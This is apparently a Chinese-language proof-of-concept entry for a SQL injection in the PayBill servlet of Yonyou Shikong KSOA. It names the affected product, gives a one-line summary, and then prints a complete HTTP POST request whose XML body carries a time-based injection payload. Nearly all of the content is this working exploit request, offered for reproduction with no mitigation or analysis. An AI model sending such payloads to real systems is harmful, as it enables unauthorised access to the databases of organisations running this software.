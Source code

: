 #### 影响范围

用友时空KSOA

#### 漏洞概述

用友时空KSOA PayBill SQL注入

#### 漏洞复现

漏洞POC

```
POST /servlet/PayBill?caculate&_rnd= HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 134
Accept-Encoding: gzip, deflate
Connection: close

<?xml version="1.0" encoding="UTF-8" ?><root><name>1</name><name>1'WAITFOR DELAY '00:00:03';-</name><name>1</name><name>102360</name></root>
```



